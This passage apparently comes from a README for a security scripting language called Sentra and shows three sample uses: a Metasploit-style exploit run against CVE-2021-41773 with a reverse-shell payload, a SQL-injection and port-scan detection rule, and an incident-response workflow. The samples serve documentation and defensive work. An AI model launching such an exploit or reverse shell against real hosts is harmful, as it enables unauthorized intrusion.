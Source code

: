 ## Killer Applications

### 1. Sentra Exploit Framework (SEF)
**Replace Metasploit** with a faster, modern framework:
```sentra
use exploit/apache/cve_2021_41773

set RHOST 192.168.1.100
set PAYLOAD reverse_shell
set LHOST 10.0.0.5

check   // Verify vulnerability
exploit // Launch attack
```

### 2. Sentra Network Monitor (SNM)
**Real-time packet analysis** beating Zeek/Suricata:
```sentra
monitor eth0 {
    pattern sql_injection = /union.*select|or.*1.*=.*1/i
    pattern port_scan = tcp.syn > 100/sec
    
    on match sql_injection {
        block(src_ip, 3600)
        alert("SQL injection from ${src_ip}")
    }
}
```

### 3. Sentra Security Orchestration (SSO)
**SOAR platform** automation:
```sentra
workflow incident_response {
    trigger = alert.severity >= HIGH
    
    step isolate_host {
        firewall.quarantine(alert.host)
        snapshot.create(alert.host)
    }
    
    step collect_forensics {
        logs = collect_logs(alert.host, last_24h)
        memory = dump_memory(alert.host)
        connections = netstat(alert.host)
    }
    
    step analyze {
        iocs = extract_iocs(logs, memory)
        threat_hunt(iocs, all_hosts)
    }
}
```
